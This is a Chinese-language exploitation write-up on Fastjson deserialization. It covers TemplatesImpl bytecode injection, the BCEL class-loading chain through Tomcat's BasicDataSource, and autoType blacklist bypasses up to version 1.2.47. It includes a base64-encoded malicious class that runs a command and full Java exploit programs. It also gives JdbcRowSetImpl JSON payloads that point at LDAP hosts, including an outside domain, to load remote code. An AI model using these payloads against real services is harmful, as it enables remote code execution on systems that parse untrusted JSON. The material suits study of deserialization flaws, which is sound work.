yv66vgAAADQASwoADQAqCQArACwIAC0KAC4ALwcAMAgAMQoAMgAzCgAyADQKADUANgcANwoACgA4BwA5BwA6AQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAC5MY29tL3k1bmVrby9zZWMvZmFzdGpzb24vVGVtcGxhdGVzSW1wbFBheWxvYWQ7AQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAEYXJnMAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEABGFyZzEBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwA7AQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAEYXJnMgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAIPGNsaW5pdD4BAANjbWQBABNbTGphdmEvbGFuZy9TdHJpbmc7AQABZQEAFUxqYXZhL2xhbmcvRXhjZXB0aW9uOwEADVN0YWNrTWFwVGFibGUHADcBAApTb3VyY2VGaWxlAQAZVGVtcGxhdGVzSW1wbFBheWxvYWQuamF2YQwADgAPBwA8DAA9AD4BAAdTdWNjZXNzBwA/DABAAEEBABBqYXZhL2xhbmcvU3RyaW5nAQAEY2FsYwcAQgwAQwBEDABFAEYHAEcMAEgASQEAE2phdmEvbGFuZy9FeGNlcHRpb24MAEoADwEALGNvbS95NW5la28vc2VjL2Zhc3Rqc29uL1RlbXBsYXRlc0ltcGxQYXlsb2FkAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANlcnIBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACgoW0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQARamF2YS9sYW5nL1Byb2Nlc3MBAAd3YWl0Rm9yAQADKClJAQAPcHJpbnRTdGFja1RyYWNlACEADAANAAAAAAAEAAEADgAPAAEAEAAAAC8AAQABAAAABSq3AAGxAAAAAgARAAAABgABAAAAEQASAAAADAABAAAABQATABQAAAABABUAFgACABAAAAA/AAAAAwAAAAGxAAAAAgARAAAABgABAAAAHwASAAAAIAADAAAAAQATABQAAAAAAAEAFwAYAAEAAAABABkAGgACABsAAAAEAAEAHAABABUAHQACABAAAABJAAAABAAAAAGxAAAAAgARAAAABgABAAAAJAASAAAAKgAEAAAAAQATABQAAAAAAAEAFwAYAAEAAAABABkAHgACAAAAAQAfACAAAwAbAAAABAABABwACAAhAA8AAQAQAAAAhwAEAAEAAAAmsgACEgO2AAQEvQAFWQMSBlNLuAAHKrYACLYACVenAAhLKrYAC7EAAQAIAB0AIAAKAAMAEQAAAB4ABwAAABMACAAVABIAFgAdABkAIAAXACEAGAAlABoAEgAAABYAAgASAAsAIgAjAAAAIQAEACQAJQAAACYAAAAHAAJgBwAnBAABACgAAAACACk=
```

把恶意类的字节码构造进json即可

```json
package com.y5neko.sec.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

import javassist.ClassPool;
import javassist.CtClass;
import java.util.Base64;

public class TemplatesImpl {
    static String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

    public static void main(String[] args) throws Exception {
        String TemplatesImplPayload = "yv66vgAAADQASwoADQAqCQArACwIAC0KAC4ALwcAMAgAMQoAMgAzCgAyADQKADUANgcANwoACgA4BwA5BwA6AQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAC5MY29tL3k1bmVrby9zZWMvZmFzdGpzb24vVGVtcGxhdGVzSW1wbFBheWxvYWQ7AQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAEYXJnMAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEABGFyZzEBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwA7AQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAEYXJnMgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAIPGNsaW5pdD4BAANjbWQBABNbTGphdmEvbGFuZy9TdHJpbmc7AQABZQEAFUxqYXZhL2xhbmcvRXhjZXB0aW9uOwEADVN0YWNrTWFwVGFibGUHADcBAApTb3VyY2VGaWxlAQAZVGVtcGxhdGVzSW1wbFBheWxvYWQuamF2YQwADgAPBwA8DAA9AD4BAAdTdWNjZXNzBwA/DABAAEEBABBqYXZhL2xhbmcvU3RyaW5nAQAEY2FsYwcAQgwAQwBEDABFAEYHAEcMAEgASQEAE2phdmEvbGFuZy9FeGNlcHRpb24MAEoADwEALGNvbS95NW5la28vc2VjL2Zhc3Rqc29uL1RlbXBsYXRlc0ltcGxQYXlsb2FkAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANlcnIBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACgoW0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQARamF2YS9sYW5nL1Byb2Nlc3MBAAd3YWl0Rm9yAQADKClJAQAPcHJpbnRTdGFja1RyYWNlACEADAANAAAAAAAEAAEADgAPAAEAEAAAAC8AAQABAAAABSq3AAGxAAAAAgARAAAABgABAAAAEQASAAAADAABAAAABQATABQAAAABABUAFgACABAAAAA/AAAAAwAAAAGxAAAAAgARAAAABgABAAAAHwASAAAAIAADAAAAAQATABQAAAAAAAEAFwAYAAEAAAABABkAGgACABsAAAAEAAEAHAABABUAHQACABAAAABJAAAABAAAAAGxAAAAAgARAAAABgABAAAAJAASAAAAKgAEAAAAAQATABQAAAAAAAEAFwAYAAEAAAABABkAHgACAAAAAQAfACAAAwAbAAAABAABABwACAAhAA8AAQAQAAAAhwAEAAEAAAAmsgACEgO2AAQEvQAFWQMSBlNLuAAHKrYACLYACVenAAhLKrYAC7EAAQAIAB0AIAAKAAMAEQAAAB4ABwAAABMACAAVABIAFgAdABkAIAAXACEAGAAlABoAEgAAABYAAgASAAsAIgAjAAAAIQAEACQAJQAAACYAAAAHAAJgBwAnBAABACgAAAACACk=";

        String payload =
                "{\"" +
                        "@type\":\"" + NASTY_CLASS + "\"," + "\"" +
                        "_bytecodes\":[\"" + TemplatesImplPayload + "\"]," +
                        "'_name':'asd','" +
                        "_tfactory':{ },\"" +
                        "_outputProperties\":{ }," + "\"" +
                        "_version\":\"1.0\",\"" +
                        "allowedProtocols\":\"all\"}\n";
        System.out.println(payload);
        ParserConfig config = new ParserConfig();
        Object obj = JSON.parseObject(payload, Object.class, config, Feature.SupportNonPublicField)//使私有属性可以被反序列化·1;
    }

}
```

#### FastJsonBcel类+动态类加载（不出网）

在Fastjson中通过BCEL字节码执行恶意代码，需要用到org.apache.tomcat.dbcp.dbcp.**BasicDataSource**这个类。主要原因是，我们需要加载BCEL字节码的话，需要实现下面这一句话：

```
import com.sun.org.apache.bcel.internal.util.ClassLoader;
...
new ClassLoader().loadClass("$$BCEL$$"+code).newInstance();
```

而想要在Fastjson中使用的话，就得在各种fastjson反序列化过程中执行的那些操作中执行到这个操作。而在**BasicDataSource**中正好有一个能够利用的点。

在544行的地方，方法createConnectionFactory执行了一个getContextClassLoader().loadClass(this.driverClassName)

```java
protected ConnectionFactory createConnectionFactory() throws SQLException {//方法
    Class driverFromCCL = null;
    String user;
    if (this.driverClassName != null) {
        try {
            try {
                if (this.driverClassLoader == null) {
                    Class.forName(this.driverClassName);
                } else {
                    Class.forName(this.driverClassName, true, this.driverClassLoader);
                }
            } catch (ClassNotFoundException var6) {
                driverFromCCL = Thread.currentThread().getContextClassLoader().loadClass(this.driverClassName);//此处
```

而这里的getContextClassLoader和driverClassName恰好都是可控的，上次说到的Fastjson在反序列化过程中会调用setter来置值。

我们在类中找到了setContextClassLoader和setdriverClassName。

```
public synchronized void setDriverClassName(String driverClassName) {
    if (driverClassName != null && driverClassName.trim().length() > 0) {
        this.driverClassName = driverClassName;
    } else {
        this.driverClassName = null;
    }

    this.restartNeeded = true;

}
```

```
public synchronized void setDriverClassLoader(ClassLoader driverClassLoader) {
    this.driverClassLoader = driverClassLoader;
    this.restartNeeded = true;
}
```

现在，只要找到哪里调用到createConnectionFactory就能成了，接下来就是一条链到达这里。

在方法createDataSource中第510行找到了这个createConnectionFactory的调用。

```java
protected synchronized DataSource createDataSource() throws SQLException {
    if (this.closed) {
        throw new SQLException("Data source is closed");
    } else if (this.dataSource != null) {
        return this.dataSource;
    } else {
        ConnectionFactory driverConnectionFactory = this.createConnectionFactory();//此处调用方法
```

然后又在getConnection找到了createDataSource的调用。

```java
public Connection getConnection() throws SQLException {
    return this.createDataSource().getConnection();//此处调用creatdatasource
}

```

##### 分析：

jdk的内置类中找到了这样一方法，能够进行动态类加载，就是ClassLoader里面的loadClass方法，在里面调用了defineClass：

bcel表达式，命令执行


我们可以看到，如果要调用defineClass方法，要保证clazz不为null，我们就需要调用前面的createClass方法


createclass 里面通过decode方法加载了字节码，因此payload中需要先进行一次encode编码，大致构造一下payload结构

```java
package com.y5neko.sec.fastjson;

import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class FastjsonBcel {
    public static void main(String[] args) throws Exception {
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("H:\\Java_Project\\Java_Security\\out\\production\\Java_Security\\com\\y5neko\\sec\\fastjson\\TemplatesImplPayload.class");
        String code = Utility.decode(bytes,true);
        //decode的返回值就是clazz的值，也就是bytes接受的路径那一串
        
        classLoader.loadClass("$$BCEL$$" + code).newInstance();//使用BCEL方式动态加载尝试一下
    }
    private static byte[] convert(String s) throws Exception{
    }
}
```

接下来我们考虑怎么调用loadClass方法，分析发现在tomcat包下面找到了一个BasicDataSource的类，里面的createConnectionFactory方法调用了forName方法，这里forName方法的底层逻辑其实调用了loadClass方法，所以如果我们让**dirverClassLoader**等于ClassLoader，让**dirverClassName**等于我们自己的恶意类，就可以执行。


恰好这两个变量还能够通过setter方法进行可控


接下来看哪里能够调用forName方法对应的3createConnectionFactory方法


最后我们找到了2createDataSource方法，继续分析用法，最终找到了1getConnection方法


##### EXP：

根据上面的分析，我们大致可以构造一条调用流程

```java
package com.y5neko.sec.fastjson;

import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;

public class FastjsonBcel {
    public static void main(String[] args) throws Exception {
        ClassLoader classLoader = new ClassLoader();
        //转字节码
        byte[] bytes = convert("H:\\Java_Project\\Java_Security\\out\\production\\Java_Security\\com\\y5neko\\sec\\fastjson
                               \\TemplatesImplPayload.class");
                               
        String code = Utility.encode(bytes,true);
        //BCEL加载
        //classLoader.loadClass("$$BCEL$$" + code).newInstance();

        System.out.println(code);

        BasicDataSource basicDataSource = new BasicDataSource();
        basicDataSource.setDriverClassLoader(classLoader);//将setDriverClassLoader中传入classloader
        basicDataSource.setDriverClassName("$$BCEL$$" + code);//这里跟恶意类
        basicDataSource.getConnection();//都是basicdatasource下的方法，调用getconnection方法

    }
    private static byte[] convert(String filePath) throws Exception {
        File file = new File(filePath);
        if (!file.exists()) {
            throw new Exception("文件不存在");
        }
        //读取文件为字节码
        try (InputStream inputStream = new FileInputStream(file)) {
            ByteArrayOutputStream byteOutput = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int bytesRead;

            while ((bytesRead = inputStream.read(buffer)) != -1) {
                byteOutput.write(buffer, 0, bytesRead);
            }
            return byteOutput.toByteArray();
        }
    }
}
```

把调用过程转换成fastjson payload

**FastjsonBcelPayload.java**

```java
package myJavaSecurity;

public class FastjsonBcelPayload {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"calc"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {

        }
    }
}
```

**EXP**

```java
package myJavaSecurity;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;

public class FastjsonBcel {
    public static void main(String[] args) throws Exception {
        ClassLoader classLoader = new ClassLoader();
        //转字节码
        byte[] bytes = convert("out/production/Java_Study/myJavaSecurity/myFastjsonBcelPayload.class");//跟的是构造的payload的路径
        String code = Utility.encode(bytes,true);//encode编码decode解码
        //BCEL加载
        //classLoader.loadClass("$$BCEL$$" + code).newInstance();

        System.out.println(code);

//        BasicDataSource basicDataSource = new BasicDataSource();
//        basicDataSource.setDriverClassLoader(classLoader);
//        basicDataSource.setDriverClassName("$$BCEL$$" + code);
//        basicDataSource.getConnection();
        String string = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\"," +
                "\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}," +
                "\"driverClassName\":\"$$BCEL$$" + code + "\"}";//相当于是上面几串

        JSON.parseObject(string);
    }
    private static byte[] convert(String filePath) throws Exception {
        File file = new File(filePath);
        if (!file.exists()) {
            throw new Exception("文件不存在");
        }
        //读取文件为字节码
        try (InputStream inputStream = new FileInputStream(file)) {
            ByteArrayOutputStream byteOutput = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int bytesRead;

            while ((bytesRead = inputStream.read(buffer)) != -1) {
                byteOutput.write(buffer, 0, bytesRead);
            }
            return byteOutput.toByteArray();
        }
    }
}
```


##### 总结：

我们在jdk的内置类中找到了这样一方法，能够进行动态类加载，就是ClassLoader里面的loadClass方法，在里面调用了defineClass。我们想要调defineClass，就要保证clazz不为null，然后我们就要调前面的`createClass`方法，然后里面调用了`decode`方法返回了clazz值，所以我们在编写exp的时候就需要先进行一个`decode`。然后下面我们就需要考虑如何**调用loadClass方法**，在tomcat包下面找到了一个BasicDataSource的类，里面调用了forName方法，这里forName方法的底层逻辑其实调用了loadClass方法，所以如果我们让dirverClassLoader等于ClassLoader，让dirverClassName等于我们自己的恶意类，就可以执行。恰好这两个变量还能够通过setter方法进行可控。然后我们就来看最后能不能调用到某个setter方法或者getter中，看哪里能够调用createConnectionFactory方法，往上跟链子，找到createDataSource方法，再跟最后找到getConnetion这个方法。

### FastJson<=1.2.47绕过

我们可以发现在1.2.25中，对`@type`进行了修复，检测了是否能够进行`AutoType`，而1.2.24在这里是直接进行`loadClass`，所以我们就要对这里进行一个绕过

> 见FastJSON->分析->parseObject

#### 分析：

1.

我们可以先尝试打一下原来的payload


报错了，提示反序列化的类不支持，看一下它的源码是怎么修复的。


**checkAutoType检测流程分析：**

这里由原来的loadClass替换为checkAutoType函数，其实其他地方都大差不差，都是在这个checkAutoType函数中做了检测和限制。在后续高版本fastjson的修复也都是在这个函数中做进一步的优化。重点来分析一下checkAutoType函数内部的代码逻辑，直接看注释。

```
public Class<?> checkAutoType(String typeName, Class<?> expectClass) {
if (typeName == null) {  //也就是@type对应的键值，要反序列化的类，当然它是不为null
return null;
}

final String className = typeName.replace('$', '.');//将内部类的$替换为. 这行代码不重要
//expectClass是期望类，默认也是为空的，所以默认代码逻辑是不会走到这个if里的
if (autoTypeSupport || expectClass != null) { //autoTypeSupport布尔型，默认为false
for (int i = 0; i < acceptList.length; ++i) {
String accept = acceptList[i];
if (className.startsWith(accept)) {  //遍历白名单，如何匹配到了就类加载
return TypeUtils.loadClass(typeName, defaultClassLoader);
}
}

for (int i = 0; i < denyList.length; ++i) {
String deny = denyList[i];
if (className.startsWith(deny)) { //遍历黑名单，如果匹配到了就抛出异常
throw new JSONException("autoType is not support. " + typeName);
}
}
}
//上面if条件都不满足，所以会走到这里
Class<?> clazz = TypeUtils.getClassFromMapping(typeName);//从缓存里面找 这个类是否在缓存里
if (clazz == null) {
clazz = deserializers.findClass(typeName);//如果没有，就继续在反序列化器里找
}
//继续走到这里
if (clazz != null) { //如果在上面的缓存里找到了，做一个简单的判断
if (expectClass != null && !expectClass.isAssignableFrom(clazz)) {
throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
}

return clazz;//不满足if，返回类
}
//继续往下
if (!autoTypeSupport) { //autoTypeSupport默认为空，进入到这个if分支
for (int i = 0; i < denyList.length; ++i) {
String deny = denyList[i];
if (className.startsWith(deny)) { 
throw new JSONException("autoType is not support. " + typeName);
} //黑名单检测到抛出异常，也就是之前payload打不通，报出的异常错误
}
for (int i = 0; i < acceptList.length; ++i) {
String accept = acceptList[i];
if (className.startsWith(accept)) {  //在白名单里 loadClass加载类
clazz = TypeUtils.loadClass(typeName, defaultClassLoader);

if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
}
return clazz;
}
}
}
//只要开启了autoTypeSupport，就会走到这里进行类加载
if (autoTypeSupport || expectClass != null) {
clazz = TypeUtils.loadClass(typeName, defaultClassLoader);
}

if (clazz != null) {
//检测是否为这几个类的子类，抛出异常，后面不重要，不说了
if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
|| DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
) {
throw new JSONException("autoType is not support. " + typeName);
}

if (expectClass != null) {
if (expectClass.isAssignableFrom(clazz)) {
return clazz;
} else {
throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
}
}
}

if (!autoTypeSupport) {
throw new JSONException("autoType is not support. " + typeName);
}

return clazz;
}
}
```


- 在第一个中，因为在白名单中才能够进行缓存，所以这里不符合要求，第三个同理
- 在第二个返回类当中，期望类为空且类与期望类一致的时候返回类，这里我们的期望类为空，所以这里能够符合条件，所以我们在往上找，只要缓存中存在类，我们就能够进行加载。
- 第四个是基于期望类的，因为这里和期望类并无关所以也满足不了
- 进入false来到第五个，又因为默认情况下AutoType为false，所以也加载不了

这个函数加了黑白名单做限制，白名单默认为空，黑名单里的类写死了改不了。


有很多，里面也包含了com.sun包下的漏洞类。当然，黑白名单这里我们是没法绕过去的，那么就找一下有什么特殊情况可以返回我们反序列化的恶意类。

**寻找利用点：**

在我们对checkAutoType函数逻辑分析的时候，有这么一段代码：


它会从mapping缓存和反序列化器里面找有没有与之对应的类，然后返回我们的类。如果我们可以将恶意的类放进缓存中，它直接从缓存里拿并反序列化，就绕过了所谓的安全限制。这也就是接下来主要分析的1.2.47版本之前的绕过手法。

如果开启了，或者说我们能够开启autoTypeSupport开关，


直接可以loadClass，那就简单多了。

**绕过：**

跟进到getClassFromMapping方法


**TypeUtils.loadClass**：

mappings继承了HashMap，查找用法看看有哪些地方可以put进去我们的恶意类。可以利用的地方在TypeUtils类的loadClass方法里。


classLoader默认为null，自然会走到这个if里面，如果className赋值为我们的恶意类，就可以放到缓存里面了。继续查找方法看看什么地方调用了TypeUtils的loadClass方法。

**MiscCodec.deserialze**：

在MiscCodec类的deserialze方法里


如果clazz是Class类型的话，就调用这个loadClass方法，先看看MiscCodec是个什么东西


很明显，它是一个反序列化器。那什么情况下调用该反序列化器的deserialze方法呢？在DefaultJSONParser类中有这样一段逻辑：


其实checkAutoType函数检测返回类后是会走到这里来的，它从config中，也就是ParserConfig类中获取反序列化器，然后从获取来的反序列化器反序列化我们的类。



可以看一下deserializers的默认配置


有很多，指定的类对应不同的反序列化器，这里Class类型的类也是默认用MiscCodec反序列化器，那么就与上文调用loadClass的那个if判断对接上了。还有一个细小的代码段：


检测传入的JSON串的键值是否为val，如果不为val，就抛出异常，这点在写payload的时候要注意。


**分析2：**


接下来详细分析一下如何在缓存中加载我们需要的类

我们跟进getClassFromMapping方法中，从里面找mapping里面的缓存


然后在loadClass中我们可以发现是有可能对类进行控制的，其他地方都是指定了一些基础类进行的缓存，而loadClass这里只要我们加载类成功以后，他就会放入缓存中，下次调用直接从缓存中进行加载，这里我们就要想怎么才能够在loadClass的时候将我们的类加载入缓存当中

继续查找loadClass用法


最后确定了MiscCodec里面的deserialize函数中，当clazz==Class.class的时候会进行调用，然后我们来观察MiscCodec可以发现，他继承了反序列化和序列化的接口，在fastJson的反序列化中也会把他当作反序列化器来进行调用


如果FastJson反序列化的类是属于Class.class的时候，就会调用MiscCodec反序列化器，然后调用loadClass，传入我们想传入的字符串strVal，然后在loadClass中作为String className进行加载并放在缓存里面。


具体赋值在MiscCodec的deserialize方法


我们可以看到这里的`parser`对应的就是后面的`lexer.stringVal`比较，必须满足是val才能够不抛出异常，所以我们就让string=val就可以，然后后面我们对应反序列化的内容为恶意类就可以


##### 总结：

目的是为了让我们的恶意类放入缓存中，可以提前反序列化一个java.lang.Class类，添加val属性，属性值为执行的恶意类，它会走到TypeUtils的loadClass方法中，将恶意类添加到缓存中，然后反序列化我们的恶意类，它会直接从缓存里拿，从而绕过安全检测。

```
java.lang.Class-->MiscCodec.deserialze-->TypeUtils.loadClass-->mappings.putcom.sun.rowset.JdbcRowSetImpl-->checkAutoType-->mappings.get-->反序列化执行恶意代码
```

##### exp：

```
/*

 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
   */

package com.y5neko.sec.fastjson;

import com.alibaba.fastjson.JSON;

public class FastjsonBypass_1247 {
    public static void main(String[] args) {
        String payload = "{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://ysmdiskerm.dgrh3.cn/ZGBWoLkn\",\"AutoCommit\":\"false\"}}";
        JSON.parseObject(payload);
    }
}
```

##### 调试分析：

可以调试看一下，只看关键部分


进入到checkAutoType函数，此时的typeName是java.lang.Class


这个类可以直接从缓存里面找到，然后直接返回类


然后就到了最下面，根据typeName去查找对应的反序列化器，这里我们可以看到反序列化器类是MiscCodec类，接下来就是调用它的deserialize函数



此时满足这个if条件，去调用loadClass，strVal已经赋值为我们的恶意类了


可以看到mappings里面已经有我们的恶意类了，然后到了下一轮，开始反序列化第二个@type，也就是恶意类


在这个安全函数里，typeName已经换成了com.sun.rowset.JdbcRowSetImpl


缓存里面有，直接拿了，没有走到黑白名单检测那里，直接返回。后续就正常反序列化执行恶意代码了，不再看了。这种绕过手法在fastjson的1.2.25到1.2.47版本下都是能用的。


### FastJson1.2.25-1.2.41绕过

##### 分析：

上面总结的在缓存里放恶意类的利用手法前提是不开启这个开关，当然默认也是不开启的。那么如果开启了，（typeutils.loadclass) 回看上面的代码，其实更简单了


直接loadClass了，当然前面需要经过黑名单的检测，那么问题就变成了如何绕过黑名单了。本次用的fastjson版本是1.2.25，就拿这个版本分析一下。看一下loadClass函数


重点是这段代码，检测反序列化的类开头是否是L，结尾是否是分号。如果是，就去掉，再进行loadClass，一个递归操作。

- ```
  其中的检测如下：
  
  - 如果以`[`开头则去掉`[`后进行类加载（在之前Fastjson已经判断过是否为数组了，实际走不到这一步）
  - 如果以`L`开头，以`;`结尾，则去掉开头和结尾进行类加载
  ```

如果修改恶意类是这样子

```
Lcom.sun.rowset.JdbcRowSetImpl;
```

开启AutoType：

```
import com.alibaba.fastjson.parser.ParserConfig;
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

就可以绕过黑名单，另外在检测到L和分号的时候去空，就可以正常的反序列化了。


##### exp：

开启AutoType：

```
import com.alibaba.fastjson.parser.ParserConfig;
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

payloa：

```
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","DataSourceName":"ldap://127.0.0.1:8085/rNMfFuPI","AutoCommit":"false"}
```

exp：

```java
package EXPFastJson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonBypass1247 {
    public static void main(String[] args){
        //第一步：反序列化一个Class类，值为恶意类
        //用之前payload从缓存中继续加载
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

//        String s="{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/hFtNevZa\",\"AutoCommit\":false}}";

        String s="{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"DataSourceName\":\"ldap://127.0.0.1:8085/hFtNevZa\",\"AutoCommit\":1}";
        JSON.parseObject(s);
    }
}
```

### FastJson1.2.42绕过

1.2.42相较于之前的版本，关键是在`ParserConfig.java`中修改了1.2.41前的代码

- 对于传入的类名，删除开头`L`和结尾的`;`

但是可以发现在以上的处理中，只删除了一次开头的`L`和结尾的`;`，双写可以绕过。

```java
{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"DataSourceName\":\"ldap://127.0.0.1:8085/ZGBWoLkn\",\"AutoCommit\":1}";
```

### FastJson1.4.43绕过：

1.2.43版本修改了`checkAutoType()`的部分代码，对于LL等开头结尾的字符串抛出异常，这里我们就可以用`[`和`{`进行绕过：

```java
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"DataSourceName":"ldap://127.0.0.1:8085/hFtNevZa","AutoCommit":1}
```

##### 分析：

1.2.43版本对1.2.42版本的绕过进行了修复，根据checkAutoType函数抛出的异常信息，我们来分析一下1.2.43版本对checkAutoType函数进行了哪些修复措施。


checkAutoType函数首先判断了className中的类是否以字符“L”开头，以字符“;”结尾，如果满足条件，继续判断是否以字符“LL”开头，如果满足条件则抛出异常，也就是说1.2.42版本的payload会被过滤掉。


由于1.2.42版本的payload已无法利用，因此我们需要另寻突破口，而TypeUtils类的loadClass方法就是我们要寻找的突破口。在**1.2.42版本中loadClass方法会对className进行校验**


loadClass方法首先会对className进行判断是否以“[”字符开头，如果满足条件就调用继续调用loadClass方法，传入两个参数，一个是className指定的类全路径（className会调用substring方法把开头的“[”字符去掉），另一个是类加载器classLoader。

